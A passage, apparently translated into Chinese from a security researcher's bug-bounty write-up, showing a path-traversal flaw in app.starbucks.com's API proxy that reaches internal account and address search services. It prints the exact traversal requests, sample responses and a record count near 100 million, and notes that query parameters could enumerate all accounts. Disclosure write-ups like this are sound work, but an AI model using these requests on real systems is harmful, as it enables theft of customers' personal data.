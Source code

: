 
此外，`Addresses` 返回類似的東西：  

```
GET /bff/proxy/stream/v1/users/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\search\v1\Addresses\ HTTP/1.1
Host: app.starbucks.com
```

```
{
  "@odata.context": "https://redacted.starbucks.com/Search/v1/$metadata#Addresses",
  "value": [
    {
      "Id": 1,
      "AccountId": 1,
      "AddressType": "3",
      "AddressLine1": null,
      "AddressLine2": null,
      "AddressLine3": null,
      "City": null,
      "PostalCode": null,
      "Country": null,
      "CountrySubdivision": null,
      "FirstName": null,
      "LastName": null,
      "PhoneNumber": null
    },
...
lots of production addresses

```



這個看起來是 production accounts 和 addresses 的服務
- 我們開始進一步探索該服務，以證實我們的懷疑，使用 Microsoft Graph 功能。

![](https://samcurry.net/wp-content/uploads/2020/06/filter_data.png)  

```
GET /bff/proxy/stream/v1/users/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\Search\v1\Accounts?$count=true
Host: app.starbucks.com

```

```json
{
  "@odata.context": "https://redacted.starbucks.com/Search/v1/$metadata#Accounts",
  "@odata.count":99356059
}
```


通過加 Microsoft Graph URL 的`$count`參數
- 我們可以確定該服務有近 1 億條記錄
- 攻擊者可以通過加 `$skip` 和 `$count` 等參數來竊取這些資料，以列舉所有用戶 account
